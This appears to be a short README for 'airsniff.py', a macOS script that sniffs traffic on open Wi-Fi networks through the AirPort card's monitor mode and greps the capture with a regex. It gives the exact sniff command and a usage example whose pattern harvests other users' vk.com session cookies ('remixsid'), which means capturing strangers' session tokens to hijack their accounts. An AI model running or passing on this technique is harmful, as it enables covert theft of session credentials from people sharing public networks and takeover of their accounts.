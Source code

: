 This is quite simple script. You can do all this stuff manually without the script.

It uses Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### How it works: 

* Turn Airport card into monitor mode on selected channel.

```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```

Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find out what channel number is used on your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* In cycle matches your regexp in .cap file and excluding duplicate strings.

#### Usage:

```sudo ./airsniff.py <channel> <"pattern">```

 **channel** — wifi channel

 **"pattern"** — regexp that will grep /tmp/*.cap file. Quotes  required!

Example for vk.com:

```sudo ./airsniff.py 10 "remixsid=[a-z0-9]{53}"```
